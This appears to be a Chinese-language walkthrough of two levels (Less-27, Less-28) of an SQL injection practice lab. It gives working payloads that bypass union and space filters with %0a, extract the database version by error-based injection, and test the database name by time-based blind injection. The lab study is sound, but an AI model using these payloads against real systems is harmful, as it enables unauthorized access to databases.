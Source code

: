 ## Less-27

+ 正常输入id参数， ；页面提示 union select 被过滤 ，所有 考虑报错注入，或者其他注入方式 

+ 发现 空格被过滤。 考虑用%0a  代替空格 ， 

+ 输入 ?id=1'   # 页面报错 ，通过报错信息可知 ，闭合方式： ‘   单引号    
字符型 

+ 注入测试：
```bash  
?id=1'or'1      # 页面和和谐
```

+ 注入 Payload :
```bash
?id=1' %0aand%0aupdatexml(1,concat('^',(select%0aversion()),'^'),1)or '1  
```

![](img/less-27.3.png)

## Less-28

+ 输入 
?id=1'   # 页面报错 ，通过报错信息可知 ，闭合方式： ‘   单引号    
字符型 

+ 注入测试：
```bash
?id=1'and%0asleep(5)%0aor '1   # 页面显示正常，按出F12调试界面，网络 延时5秒。

?id=1'and%0aif(1=1,sleep(5),1)%0aor '1   # 页面显示正常，按出F12调试界面，网络 延时5秒。
```

+ 注入Payload :
```bash
?id=1'and%0aif(database()='security',sleep(5),1)%0aor '1    #延时盲注  
```
+ 如果禁用 sleep()函数 ，可以考虑 用个 "复杂的密码学运算，哈希运算 "
